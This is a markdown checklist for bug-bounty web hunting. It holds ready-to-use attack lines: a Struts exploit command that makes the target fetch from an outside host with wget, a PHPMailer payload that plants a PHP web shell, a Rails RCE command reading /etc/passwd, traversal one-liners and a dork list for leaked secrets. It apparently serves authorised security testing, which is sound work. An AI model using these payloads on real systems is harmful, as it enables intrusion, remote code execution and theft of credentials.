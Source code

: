 # Smart Hunting ;)
## Bugs
- [ ] Add header in the proxy > Options (`X-Forwarded-Host: target.com`) - browse the program and then later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- [ ] Check HTTP Request Smuggling
- [ ] Apply on `.xhtml`
- [ ] `Python struts-pwn.py -u http://target.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- [ ] Test for Electronic Code Book (AAAAAAA aaaaaa BBBBB)
- [ ] `CVE-2016-10033`: PHPMailer RCE
email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"@127.0.0.1
subject: <?php system($_GET['c']);?>
- [ ] Change all request methods to `TRACE` method to disclose or access info
- [ ] `blc http://target.com -ro` (check for broken links)
- [ ] Check/Fuzzing `targetname.atlassian.net`
- [ ] Check/Fuzzing `jira.target.com`
- [ ] Vhost Fuzzing
- [ ] Recon/Test for bukets
- [ ] Check Github & dork list
(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,buket,GITHUB_TOKEN)
- [ ] `gau --threads 40 target.com`
- [ ] `waybackurls target.com`
- [ ] Accessing misconfigured data of an org: `https://storage.googleapis.com/<org-name>`
- [ ] Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- [ ] `CVE-2013-0156`: Rails Object Injection: ruby rails_rce.rb http://target.com 'cp /etc/passwd public/me.txt'
(https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- [ ] `CVE-2019-11043`: Hint: PHP based website on NGINX phuip-fpizdam http://target.com/anyphpfile.php
- [ ] Check for CRLF Injection
- [ ] Bypass Open-Redirection protection
- [ ] Keyfinder
- [ ] Check email verification `admin@target.com`
- [ ] `target.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- [ ] `CVE-2019-19781`: Citrix NetScaler Directory Traversal: `curl -vk -path-as-is https://$TARGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "VULNERABLE: $TARGET" || echo "MITIGATED: $TARGET"`
- [ ] We can look for vulnerabilities such as SQLi, Path Traversal: `cat urls.txt | grep "?" | qsreplace ../../../../etc/passwd | ffuf -u 'FUZZ' -w - -mr '^root:'`
- [ ] When you test a **Django**, **Rails**, or **NodeJs** web app try the following payloads in the `Accept:` header. (e.g.,`Accept: ../../../../etc/passwd`)
- [ ] Hunt XSS, SQLi, LFI, and SSRF on any site? Here’s a killer one-liner: `gau target.com | gf xss,lfi,sqli,ssrf | qsreplace FUZZ | ffuf -u FUZZ -w payloads/xss.txt,payloads/lfi.txt,payloads/sqli.txt,payloads/ssrf.txt -fr "FUZZ" | tee param_vulns.txt`

**Tip:** Add `-t 50` to ffuf for speed, or `-fc 404` to skip dead ends. Test responsibly!

- [ ] Discovering a business logic flow bug:
      
      Exploiting steps
      
        1. Register a new account and take note of the username you used
        2. Verify and activate the account
        3. Delete the account
        4. Now, try registering again using the same username (observe what happens)
      
  **Tip:** If the server still `blocks` or `reserved` the **username** after the account is deleted, congratulations! you've just uncovered a business logic flow bug ;)

### Blind XSS
- [ ] Blind XSS Payload in `User-Agent` header
- [ ] BXSS payload while logging (Enter the BXSS payload in reset/forget password, login, signup to generate errors)
- [ ] Use BXSS payload as your password
